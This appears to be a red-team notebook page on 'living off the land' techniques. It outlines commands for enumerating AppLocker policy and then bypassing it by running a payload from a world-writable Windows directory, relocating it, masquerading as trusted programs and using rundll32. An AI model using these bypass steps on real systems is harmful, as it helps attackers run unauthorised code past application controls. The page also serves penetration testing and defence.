 # Living off the Land

## 01 - Enumerate

### 1.1 - Applocker EXE Bypass

#### 1.1.1 - Command Prompt

```
C:\> icacls.exe C:\Windows\Task
```

#### 1.1.2 - PowerShell

```
PS C:\> Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrvV2\Exe
```

#### 1.1.3 - GPEdit

Local Computer Policy > User Configuration > Administrative Templates > System

### 1.2 - Applocker DLL Bypass

```
C:\> accesschk.exe "<username>" C:\Windows -wus
```

## 02 - Exploit

### 2.1 - World Writable Directories

```
C:\> C:\Windows\Task\payload.exe
```

### 2.2 - Create Directory

```
C:\Users\Administrator\Desktop> md Datasheet

C:\Users\Administrator\Desktop> move payload.exe Datasheet
```

### 2.3 - Masquerade Programs

```
msedge.exe
explorer.exe
```

### 2.4 - Whitelisted Executable Programs

```
rundll32.exe
```

---
## References

### Backlinks

- [[HTA]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Windows/Manual/Living off the Land]]

- [[Scriptlet]]

- [[Windows Scripting Host]]

- [[WMI]]

- [[ForFiles]]

- [[DLL Execution]]

### Red Team Notes

- [Red Team Notes: Application Whitelisting Bypass with WMIC and XSL](https://www.ired.team/offensive-security/code-execution/application-whitelisting-bypass-with-wmic-and-xsl)

### Pentestlab

- [Pentestlab Blog: AppLocker Bypass - CMSTP](https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/)